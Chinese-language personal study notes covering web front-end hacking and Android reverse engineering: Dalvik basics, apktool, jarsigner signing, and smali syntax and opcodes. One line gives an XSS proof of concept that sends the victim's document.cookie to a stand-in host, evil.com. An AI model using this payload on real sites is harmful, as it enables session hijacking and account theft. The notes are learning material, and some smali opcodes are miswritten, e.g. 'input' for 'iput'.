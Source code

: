 # 学习笔记
## 1. Web前端黑客技术揭秘
### POC理解&学习
1. XSS获取敏感信息：eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')

## 2. Android逆向学习
### 基础知识
1. Davlik Android OS的虚拟机，Dalvik基于寄存器，Java VM基于栈，二者明显区别。Davlik专属文件执行格式dex，比Java JVM运行快，内存占用少。
2. 反编译 Apktool、dex2jar+jd-gui，最终修改APK需要操作.smali文件，然后再使用Apktool将修改的文件打包成APK，再使用 jarsigner进行APK签名：jarsigner -keystore name.keystore Folder keystorealias -keypass passwd
3. Davlik中寄存器32位，64位类型（Long/Double）用2个寄存器表示，字节码2中类型：原始类型、引用类型（包括对象和数组）
	- B- - -byte
	- C- - -char
	- D- - -double
	- F- - -float
	- I- - -int
	- J- - -long
	- S- - -short
	- V- - -void
	- Z- - -boolean
	- [XXX- - -array
	- Lxxx/yyy- - -object : LpackageName/objectName$subObjectName;
4. smali函数
	1.  hello()V —\> void hello()
	2. hello(III)Z —\> boolean hello(int,int,int)
	3. hello(Z[I[ILjava/lang/String;J)Ljava/lang/String; —\> String hello(boolean,int[],int[],String,long)
5. Smali基本语法
	1. .field private isFlag:z   定义变量  
		.field button\_login:Landroid/widget/Button;
	2. .method  方法
		.method protected onCreate(Landroid/os/Bundle;)V  
	3. .parameter  方法参数
		.param p1, "name"    # Ljava/lang/String;
	4. .prologue  方法开始
	5. .line 36   此方法位于36行
	6. Invoke-super  调用父函数
	7. Return-void  函数返回void
	8. Move-result v0   上面函数执行的结果赋值给v0
	9. .end method 函数结束
	10. New-instance 创建实例
	11. Input-object  对象赋值
	12. Iget-object  调用对象
	13. Invoke-static  调用静态函数
	14. Invoke-virtual  调用函数
		invoke-virtual {p1, v0}, Ljava/lang/String;-\>equals(Ljava/lang/Object;)Z  
	15. Const-string  string赋值
		const-string v0, "snow"
6. smali的条件分支
	1. If-eq vA,vB,:cond\_\*\* 如果vA和vB相等，则跳转至cond\_\*\*  
	2. If-ne（不等于）、if-lt（小于）、if-ge（大于等于）、if-gt（大于）、if-le（小于等于）
	3. If-eqz v0:cond\_\*\* 如果V0等于0，则跳转至cond
	4. If-nez（不等于0）、if-ltz、if-gtz、if-gez、if-lez
7. 类的声明：
	.class public Lcom/aaaa;
	.super Lcom/bbbb;
	.source “ccc.java”
	包路径、父类、文件名称
	\#annotations 
	.annotation system Ldalvik/annotation/MemberClasses;
	value={
	Lcom/aaa$qq;
	Lcom/aaa$bb;
	}
	内部类：aaa类的两个成员内部类qq和bb；
8. 寄存器V开头的是指本地寄存器，P开头的是指参数寄存器，对于非static函数中,P0代表“this”，P1代表第一个参数，而在static函数中，P0代表第一个参数。
	const/4 v0,0x1
	input-boolean v0,p0,Lcom/aaa;-\>IsRegistered:Z 
	0x1放入本地寄存器v0，input-boolean将v0的值存放在com.aaa.IsRegistered变量中。
9. 成员变量：
	1. .field public/private [static] [finale] varName:\<类型\> 
	2. 不同的变量，不同的指令：iget、sget、iget-boolean、sget-boolean、iget-object、sget-object等；input、input-boolean、sput-boolean、iput-object、sput-object等；-object后缀的表示操作对象是对象类型，对boolean类的操作则使用-boolean。
	3. Sget-object v0,Lcom/aaa;-\>ID:Ljava/lang/String; 获取com.aaa.ID的值放入V0
	4. Iget-object v0,p0,Lcom/aaa;-\>view:Lcom/aaa/view; 此处多了一个参数p0，指的是this，array变量采用aget和aget-object
	5. this.timer=null   
		const/4 v3,0x0
		sput-object v3,Lcom/aaa;-timer:Lcom/aaa/timer;
	6. .local v0, args:Landroid/os/Message;
		 const/4 v1, 0x12
		 input v1, v0,Landroid/os/Message;-\>what:I
		 此处args是Message的实例，args.what=18
